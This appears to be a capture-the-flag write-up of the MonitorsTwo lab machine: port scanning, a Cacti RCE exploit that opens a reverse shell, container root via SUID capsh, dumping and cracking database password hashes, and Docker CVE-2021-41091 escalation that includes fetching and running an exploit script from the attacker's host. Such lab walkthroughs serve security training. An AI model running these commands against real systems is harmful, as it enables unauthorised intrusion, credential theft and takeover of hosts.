 ```yaml
---
title: MonitorsTwo
published: true
layout: post
---
```


<br />

---------------
MonitorsTwo is an Easy Difficulty Linux machine showcasing a variety of vulnerabilities and misconfigurations. Initial enumeration exposes a web application prone to pre-authentication Remote Code Execution (RCE) through a malicious X-Forwarded-For header. Exploiting this vulnerability grants a shell within a Docker container. A misconfigured capsh binary with the SUID bit set allows for root access inside the container. Uncovering MySQL credentials enables the dumping of a hash, which, once cracked, provides SSH access to the machine. Further enumeration reveals a vulnerable Docker version ( CVE- 2021-41091 ) that permits a low-privileged user to access mounted container filesystems. Leveraging root access within the container, a bash binary with the SUID bit set is copied, resulting in privilege escalation on the host.
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/iPCVUhVGfyY?si=5loK3tb6zWLzhH8v" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sT 10.10.11.211 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.211 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sT 10.10.11.211 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp nginx 1.18.0 (Ubuntu)**

<br />

------
<br />
### Foothold

The first thing that I notice when checking the website is a **version number** for the **cacti software**:<br />
![](/assets/MonitorsTwo/1.png)
<br />
<br />

A quick search reveals a vulnerability and some exploits:<br />
![](/assets/MonitorsTwo/2.png)
<br />
<br />

I found a [GitHub exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) that works pretty well:<br />
![](/assets/MonitorsTwo/3.png)
<br />
<br />

Let's use it:

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.12 --LPORT=4444
```

![](/assets/MonitorsTwo/4.png)
<br />
<br />

Based on the hostname, it seems that we are in a container:<br />
![](/assets/MonitorsTwo/5.png)
<br />
<br />

Enumerating the machine, I found an **uncommon executable** with **SUID privileges**:<br />
![](/assets/MonitorsTwo/6.png)
<br />
<br />

I checked it on **GTFOBins** and exploited it to gain **root privileges**:<br />

```bash
/sbin/capsh --gid=0 --uid=0 --
```

![](/assets/MonitorsTwo/7.png)
<br />
<br />

Great!!! Let's sanitize the shell and look for a way out of this container:

```bash
script /dev/null -c bash
```
<br />

Enumerating a little bit more we can find an **interesting script**:<br />
![](/assets/MonitorsTwo/8.png)
<br />
<br />

So I copied the command, connected to the database and enumerated it:

```bash
mysql --host=db --user=root --password=root cacti
show tables;
describe user_auth;
select username,password from user_auth;
```

![](/assets/MonitorsTwo/9.png)
<br />
<br />

It seems that we got some credentials, and there was an SSH service, so let's copy this hashes and attempt to crack them:

```bash
echo -n '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'> marcus_hash
echo -n '$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC' > admin_hash
john marcus_hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

![](/assets/MonitorsTwo/10.png)
<br />
<br />

Nice!!! But sadly the admin hash didn't return a result, so let's connect to the machine using SSH:

```bash
ssh marcus@10.10.11.211
```

![](/assets/MonitorsTwo/11.png)
<br />
<br />

------
<br />
### Privilege Escalation

Enumerating the machine, I found an **interesting email** from marcus's CISO:<br />
![](/assets/MonitorsTwo/12.png)
<br />
<br />

Thanks CISO! The CISO reveals us three vulnerabilities, the first one if a **kernel vulnerability** that we may use to escalate privileges, the second one has already been fixed, as Cacti version is 1.2.22, and the third one is a **Docker vulnerability** that we can use to escalate privileges. Let's go first after the Docker vulnerability, as the kernel one may destabilize the machine. I found an [interesting exploit](https://github.com/UncleJ4ck/CVE-2021-41091) so let's put it to work:

```bash
Attacker> git clone https://github.com/UncleJ4ck/CVE-2021-41091
Attacker> cd CVE-2021-41091
Attacker> sudo python3 -m http.server 80
Target> wget http://10.10.16.12/exp.sh
Target> chmod +x ./exp.sh
Target> ./exp.sh
```

![](/assets/MonitorsTwo/13.png)
<br />
<br />

This exploit ask us to set the **SUID bit on the /bin/bash executable on a container**, luckily for us we have already compromised one, so let's set that bit:

```bash
chmod u+s /bin/bash
ls -l /bin/bash
```

![](/assets/MonitorsTwo/14.png)
<br />
<br />

Let's continue with the exploit execution:<br />
![](/assets/MonitorsTwo/15.png)
<br />
<br />

It seems that it worked, let's go to that path and run that command:

```bash
cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
./bin/bash -p
```

![](/assets/MonitorsTwo/16.png)
<br />
<br />
